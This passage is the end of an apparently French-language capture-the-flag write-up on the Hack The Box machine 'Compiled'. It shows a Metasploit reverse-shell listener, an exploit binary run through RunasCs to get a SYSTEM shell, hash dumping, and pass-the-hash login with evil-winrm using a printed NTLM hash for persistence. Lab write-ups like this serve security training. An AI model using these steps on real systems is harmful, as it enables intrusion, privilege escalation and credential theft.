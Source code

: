 Préparez le listener dans Metasploit.

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <YOUR_IP>
set lport <PORT_NUMBER>
run
```

**Pour les étapes suivantes, assurez-vous d'avoir à la fois un shell RunasCs et un shell evil-winrm pour Emily.**

Avec le shell RunasCs, créez le répertoire `tmp` dans `C:\` et placez-y `rev.exe` et `Expl.exe`.

![tmp directory](/images/HTB-Compiled/tmp_directory.png)

Exécutez la commande suivante dans le shell evil-winrm:

```
./RunasCs.exe Emily "12345678" C:\tmp\Expl.exe
```

Après environ une minute, nous obtenons un shell meterpreter en tant que `NT AUTHORITY\SYSTEM`, et trouvons le drapeau root dans `C:\Users\Administrator\Desktop`.

![root shell](/images/HTB-Compiled/root_shell.png)

![root flag](/images/HTB-Compiled/root_flag.png)

De plus, nous pouvons utiliser `hashdump` pour obtenir tous les hashs des utilisateurs.

![hashdump](/images/HTB-Compiled/hashdump.png)

Avec le hash de l'administrateur, nous pouvons nous connecter via evil-winrm. C'est une façon d'établir la persistance afin de ne pas avoir à répéter le processus d'exploitation.

```
evil-winrm -i compiled.htb -u Administrator -H f75c95bc9312632edec46b607938061e
```

![evil-winrm root shell](/images/HTB-Compiled/root_evil-winrm.png)

Je vous remercie d'avoir lu cet article et j'espère qu'il vous a été utile!

